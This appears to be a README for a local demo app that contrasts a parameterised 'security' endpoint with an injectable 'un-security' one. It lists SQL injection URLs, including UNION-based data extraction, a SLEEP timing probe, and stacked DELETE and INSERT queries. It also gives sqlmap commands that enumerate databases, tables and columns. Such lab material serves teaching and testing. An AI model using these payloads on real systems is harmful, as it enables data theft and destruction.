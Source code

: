 # Security Testing
## Update
- http://localhost:8086/security/update?id=c-1
## Single Query
- http://localhost:8086/security/query/single?id=c-1
## List Query
- http://localhost:8086/security/query/list?title=DEV

# Un-security Testing
## Update
- http://localhost:8086/un-security/update?id=c-1';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-8','Roc','QA')-- ;[allowMultiQueries=true]
## Single Query
- http://localhost:8086/un-security/query/single?id=c-1' AND 'a'='a
- http://localhost:8086/un-security/query/single?id=c-1' OR 1=1 LIMIT 3,1-- ;
- http://localhost:8086/un-security/query/single?id=NOO' UNION SELECT * FROM PRODUCT limit 3,1-- ;
- http://localhost:8086/un-security/query/single?id=NOO' UNION SELECT DATABASE(), VERSION(), USER()-- ;
- http://localhost:8086/un-security/query/single?id=NOO' OR IF(1>0, SLEEP(10), 1)-- ;
## List Query
- http://localhost:8086/un-security/query/list?title=DEV' OR 'a'='a
- http://localhost:8086/un-security/query/list?title=NOO' LIMIT 0,100 -- ;
- http://localhost:8086/un-security/query/list?title=DEV' UNION SELECT * FROM PRODUCT-- ;
- http://localhost:8086/un-security/query/list?title=DEV';DELETE FROM CUSTOMER-- ;[allowMultiQueries=true]
- http://localhost:8086/un-security/query/list?title=DEV';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-7','Ady','QA')-- ;[allowMultiQueries=true]
- http://localhost:8086/un-security/query/list?title=DEV';INSERT INTO PRODUCT(ID, NAME, TITLE) VALUES ('p-7','Vivo X200','Phone')-- ;[allowMultiQueries=true]

# How to execute multiple queries in a single statement in java
- spring.datasource.url=jdbc:mysql://host/database?allowMultiQueries=true

# SQLMAP
## Check if there is sql injection
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1
## Query users
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 --users
## Query databases
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 --dbs
## Query tables of a database
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 -D <database> --tables
## Query columns of a table
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 -D <database> -T <table> --columns
